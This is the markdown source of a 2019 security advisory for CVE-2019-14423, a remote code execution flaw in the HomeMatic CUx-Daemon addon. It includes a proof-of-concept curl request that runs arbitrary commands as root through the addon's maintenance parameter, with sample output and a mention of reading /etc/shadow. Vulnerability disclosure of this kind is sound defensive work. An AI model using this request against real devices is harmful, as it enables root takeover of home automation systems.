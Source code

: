 ```yaml
---
layout: post
title: "Remote Code Execution in HomeMatic CUx-Daemon"
date: 2019-07-15 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-14423"
cve_description: "A Remote Code Execution (RCE) issue in the addon CUx-Daemon Version 1.5 of the HomeMatic CCU-Firmware 2.35.16 until 2.45.6 allows remote authenticated attackers to execute system commands as root remotely via a simple HTTP Request."
cve_affectedVersion: "CUx-Daemon Version 1.11a until 2.2.0"
cvss: "XX.XX"
softwarePatchLink: "[https://www.homematic-inside.de/blog/cuxd-in-der-version-2-3-0-erschienen?highlight=cuxd](https://www.homematic-inside.de/blog/cuxd-in-der-version-2-3-0-erschienen?highlight=cuxd)"
---
```


## Overview

- Vulnerability: Remote Code Execution (RCE)
- Vendor: Uwe Langhammer (Alex Krypthul)
- Vendor Homepage: [https://www.homematic-inside.de/software/cuxd](https://www.homematic-inside.de/software/cuxd)
- Product: HomeMatic Addon CUx-Daemon
- Testet on: CCU-Firmware 2.35.16 until 2.45.6 CUx-Daemon Version 1.11a
- Version: {{ page.cve_affectedVersion }}

## Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU2 is a central control unit, which is responsible for integrating these components with each other.

From the HomeMatic's [website](https://www.eq-3.com/products/homematic/control-units-and-gateways.html):
"Homematic devices can be connected to one another and programmed via the control units and gateways. The Homematic Central Control Unit CCU2 is responsible for numerous control, signalling and supervision functions across all areas of the Homematic system. The device includes a browser based user interface to the up the system. It can be controlled in the local network as well as via Internet. The Homematic software offers various configuration and application possibilities, so that there are no limits to creativity for installing your individual smart home..."

Link to the vulnerable [addon](https://www.homematic-inside.de/software/cuxd): This addon is compartible with CCU1, CCU2, CCU3 and RaspberryMatic. The issue can found on this systems as well.

## Issue Description

While analyzing the implementation of the home automation system HomeMatic, one Remote Code Execution (RCE) vulnerability has been identified, which can be exploited in order to execute system commands as root. The vulnerability is in the default CUx daemon add-on of CCU firmware 2.35.16 to 2.45.6.

![Affected Version](/assets/CVE-2019-14423/CVE-2019-14423.HomeMatic.Version.JPG)

This vulnerability can be exploited by authenticated attackers with access to the web interface to gain root privileges on the underlying linux system.

The following **bash command** illustrates this approach:

~~~ bash
curl -k http://192.168.0.125/addons/cuxd/index.ccc?pass=&maintenance=9&cmd=ifconfig
~~~

Output of the **bash command** command:

~~~ bash
eth0      Link encap:Ethernet  HWaddr 00:1B:1A:23:34:77  
          inet addr:192.168.0.125  Bcast:192.168.0.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2618068 errors:0 dropped:41512 overruns:0 frame:0
          TX packets:238524 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 tx:1000
          RX bytes:589432101 (562.1 MiB)  TX bytes:81696404 (77.9 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:7934360 errors:0 dropped:0 overruns:0 frame:0
          TX packets:7934360 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 tx:0
          RX bytes:2245939067 (2.0 GiB)  TX bytes:2245939067 (2.0 GiB)

usb0      Link encap:Ethernet  HWaddr 00:1B:1A:23:34:77  
          inet addr:10.103.80.44  Bcast:10.103.80.255  Mask:255.255.255.0
          UP BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 tx:1000
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
~~~

Output of an other **system command**:
![POC execute systemcall and read /etc/shadow file](/assets/CVE-2019-14423/CVE-2019-14423.HomeMatic.POC.JPG)

## Impact

This vulnerability affects the system's confidentiality / integrity / availability. This allows an attacker to read / manipulate the system data. If an attacker knows the security issue, he may steal important data or compromise the system.

## Remediation

In order to avoid this vulnerability, it's suggested to disable the addon:
**{{ page.cve_affectedVersion }}**

{%if page.softwarePatchLink %}{{ site.softwarePatchText }}{{ page.softwarePatchLink }}{% else %}{{ "" }}{% endif %}

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: 3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Credit

- {{ site.owner }}

## Disclosure Timeline

- 2019-June-15: Discovered vulnerability
- 2019-June-16: Vendor Notification
- 2019-June-21: Vendor Fix/Patch
- 2019-Juli-15: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 {{ site.owner }} and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## License

{{ site.LicenseDisplay }}